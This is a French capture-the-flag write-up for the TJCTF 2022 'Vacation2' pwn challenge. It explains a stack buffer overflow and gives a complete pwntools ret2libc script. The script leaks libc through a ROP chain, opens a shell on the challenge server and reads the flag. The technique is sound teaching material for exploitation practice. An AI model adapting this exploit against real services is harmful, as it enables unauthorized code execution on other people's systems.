



Vacation2 | Tjctf 2022 | Catégorie Pwn
May 15, 2022
Vacation2 | Tjctf 2022
Fichier(s)
Necessaires
- Netcat
- Python3 (+ pwntool)
Flag
tjctf{w3_g0_wher3_w3_w4nt_t0!_66f7020620e343ff}
Solution détaillée
Le but du challenge est d’exploiter un buffer overflow pour ainsi construire une ropchain et ainsi pouvoir prendre le contrôle du binaire grâce à une attaque ret2libc.
Un peu d’explication :
Voici la source du challenge :
#include <stdio.h>
#include <stdlib.h>
void vacation() {
char buf[16];
puts("Where am I going today?");
fgets(buf, 64, stdin);
}
void main() {
setbuf(stdout, NULL);
vacation();
puts("hmm... that doesn't sound very interesting...");
}
On voit ici que le programme crée un buffer de taille 16 avant de de nous demander une entrée. Puis il renvoie : hmm... that doesn't sound very interesting..
Que se passe t’il si on envoie beaucoup plus de charactères ?

On à une erreur : segmentation fault
Regardons de plus prêt avec gdb , voyons ce qui se passe si on envoie 24 charactères (16+8 car 64 bits)

On envoie donc : aaaaaaaaaaaaaaaaaaaaaaaaBBBBBBBB
On retrouve l’erreur segfault et on remarque que le registre RSP a été réécris avec les 8 derniers B . On peut donc rediriger le pointer du binaire vers les adresses qu’on veut.
Nous devons donc trouver l’adresse de /bin/sh dans la libc distante pour pouvoir avoir un shell intéractif . Mais comment obtenir cette adresse ?
Utilisation d’une Ropchain pour faire leak la bonne libc.
Pour le moment, nous n’avons que la possibilité de rediriger le pointer vers des adresses choisis .
On va donc pouvoir crée un mini programme en assembleur : Une ropchain (“Return-oriented-programming”) .
Le principe est simple, on va récupérer les adresses des instructions qui précèdent un ret : un retour , ainsi une fois exécuté , nôtre mini-programme reviendra au sommet de la pile ; dans nôtre exploit et exécutera la suivante qui à sont tour , s’exécutera avant de continuer .. etc ..
Illustration : source: hackndo.com

Nous allons donc grâce à une ropchain , faire leak les adresses des fonctions fgets et puts pour ainsi identifier la libc utilisé et connaitre l’adresse de /bin/sh
Grâce à RopGadget , on récupère rapidement une adresse de pop rdi ; ret et ret
root@DESKTOP-HNQJECB: /root/software/ROPgadget git:(master)
➜ python3 ROPgadget.py --binary /c/vacation/vacation2 | grep 'pop rdi ; ret'
0x0000000000401243 : pop rdi ; ret
root@DESKTOP-HNQJECB: /root/software/ROPgadget git:(master)
➜ python3 ROPgadget.py --binary /c/vacation/vacation2 | grep ': ret'
0x000000000040101a : ret
On veut donc faire ce programme :
payload = overflow
payload += ret
payload += pop_rdi
payload += adresse de la fonction à faire leak
payload += adresse de puts pour afficher le leak
payload += adresse de la fonction main pour revenir au début du programme
En python :
from pwn import *
context.log_level = 'critical'
elf = ELF('./vacation2')
rop = ROP(elf)
def Get_proc():
if(args.REMOTE):
proc = remote('tjc.tf',31705)
else:
proc = process('./vacation2')
proc.recvuntil(b'Where am I going today?\n')
return proc
def Leak_function(name,proc):
payload = 24*b'A' + p64(pop_rdi) + p64(elf.got[name]) + p64(libc_puts_plt)+ p64(ret_main_addr)
proc.sendline(payload)
Leaked = proc.recvline()[::-1].strip().hex()
proc.recvuntil(b'Where am I going today?\n')
return Leaked
## Adress
ret_main_addr = elf.symbols['vacation']
libc_puts_plt = elf.plt['puts']
libc_fgets = elf.symbols['fgets']
libc_setbuf = elf.symbols['setbuf']
pop_rdi = 0x0000000000401243
ret = 0x000000000040101a
print('\n Address:')
print('[+] Ret2start : %s'%hex(ret_main_addr))
print('[+] Puts : %s'%hex(libc_puts_plt))
print('[+] Fgets : %s'%hex(libc_fgets))
print('[+] Setbuf : %s'%hex(libc_setbuf))
print('[+] Pop_rdi : %s'%hex(pop_rdi))
print('[+] Ret : %s\n'%hex(ret))
proc = Get_proc()
Leaked_puts = Leak_function("puts",proc)
Leaked_fgets = Leak_function("fgets",proc)
print(' Leaked with Rop:')
print('[+] Puts : %s'%Leaked_puts)
print('[+] Fgets : %s'%Leaked_fgets)
Résultat :
root@DESKTOP-HNQJECB: /c/vacation
➜ python3 vacation2.py
Address:
[+] Ret2start : 0x401176
[+] Puts : 0x401064
[+] Fgets : 0x401084
[+] Setbuf : 0x401074
[+] Pop_rdi : 0x401243
[+] Ret : 0x40101a
Leaked with Rop:
[+] Puts : 7f1d26c31de0
[+] Fgets : 7f1d26c301b0
Puis on va se rendre sur libc.rip pour identifier la bonne libc utilisé à distance : On trouve : libc6_2.31-0ubuntu9.7_amd64.so
Fin de l’exploitation grâce à un ret2libc.
Maintenant que nous avons la bonne libc , nous pouvons la charger dans notre programme et nous pouvons resituer l’address de celle-ci grâce au leak du premier ropchain:
libc = ELF('libc6_2.31-0ubuntu9.7_amd64.so')
libc.address = int('0x'+Leaked_puts,16) - libc.symbols['puts']
On peut vérifier que l’adresse est valide car elle se termine par 000 qui indique que l’adresse est valide !
Nous touchons au but :)
On peut donc aller chercher les adresses de
- “/bin/sh”
- la fonction
system
bin_sh = next(libc.search(b'/bin/sh\x00'))
system = libc.sym["system"]
print('\n Address:')
print('[+] System : %s'%hex(system))
print('[+] bin_sh : %s'%hex(bin_sh))
print('[+] Pop_rdi : %s'%hex(pop_rdi))
Enfin , on crée notre payload final pour appeler /bin/sh dans la fonction system et ainsi avoir un shell intéractif !
print('[+] Getting Shell ...\n')
rop = 24*b'A' + p64(ret) +p64(pop_rdi) + p64(bin_sh) + p64(system) + p64(ret_main_addr)
proc.sendline(rop)
proc.interactive()
Voici le script final :
from pwn import *
context.log_level = 'critical'
elf = ELF('./vacation2')
rop = ROP(elf)
libc = ELF('libc6_2.31-0ubuntu9.7_amd64.so')
if(not args.REMOTE):
libc = ELF('libc6_2.33.so')
def Get_proc():
if(args.REMOTE):
proc = remote('tjc.tf',31705)
else:
proc = process('./vacation2')
proc.recvuntil(b'Where am I going today?\n')
return proc
def Leak_function(name,proc):
payload = 24*b'A' + p64(pop_rdi) + p64(elf.got[name]) + p64(libc_puts_plt)+ p64(ret_main_addr)
proc.sendline(payload)
Leaked = proc.recvline()[::-1].strip().hex()
proc.recvuntil(b'Where am I going today?\n')
return Leaked
## Adress
ret_main_addr = elf.symbols['vacation']
libc_puts_plt = elf.plt['puts']
libc_fgets = elf.symbols['fgets']
libc_setbuf = elf.symbols['setbuf']
pop_rdi = 0x0000000000401243
ret = 0x000000000040101a
print('\n Address:')
print('[+] Ret2start : %s'%hex(ret_main_addr))
print('[+] Puts : %s'%hex(libc_puts_plt))
print('[+] Fgets : %s'%hex(libc_fgets))
print('[+] Setbuf : %s'%hex(libc_setbuf))
print('[+] Pop_rdi : %s'%hex(pop_rdi))
print('[+] Ret : %s\n'%hex(ret))
proc = Get_proc()
Leaked_puts = Leak_function("puts",proc)
Leaked_fgets = Leak_function("fgets",proc)
print(' Leaked with Rop:')
print('[+] Puts : %s'%Leaked_puts)
print('[+] Fgets : %s'%Leaked_fgets)
## Relocate libc
libc.address = int('0x'+Leaked_puts,16) - libc.symbols['puts']
if(str(hex(libc.address))[-3:] != '000'):
print('[-] Invalid Libc: %s'%hex(libc.address))
## New Adress
bin_sh = next(libc.search(b'/bin/sh\x00'))
system = libc.sym["system"]
print('\n Address:')
print('[+] System : %s'%hex(system))
print('[+] bin_sh : %s'%hex(bin_sh))
print('[+] Pop_rdi : %s'%hex(pop_rdi))
print('[+] Getting Shell ...\n')
## Create Rop
rop = 24*b'A' + p64(ret) +p64(pop_rdi) + p64(bin_sh) + p64(system) + p64(ret_main_addr)
proc.sendline(rop)
proc.interactive()
proc.close()
et voici le Résultat :
root@DESKTOP-HNQJECB: /c
➜ python3 vacation2.py REMOTE
Address:
[+] Ret2start : 0x401176
[+] Puts : 0x401064
[+] Fgets : 0x401084
[+] Setbuf : 0x401074
[+] Pop_rdi : 0x401243
[+] Ret : 0x40101a
Leaked with Rop:
[+] Puts : 7f328beea450
[+] Fgets : 7f328bee8660
Address:
[+] System : 0x7f328beb82c0
[+] bin_sh : 0x7f328c01a5bd
[+] Pop_rdi : 0x401243
[+] Getting Shell ...
$ id
uid=1000 gid=1000 groups=1000
$ ls
flag.txt
run
$ cat flag.txt
tjctf{w3_g0_wher3_w3_w4nt_t0!_66f7020620e343ff}
(source:hacktricks)
Voila ! C’était ma première exploitation Ropchain ainsi que Ret2libc et j’espère que ma solution vous a plu.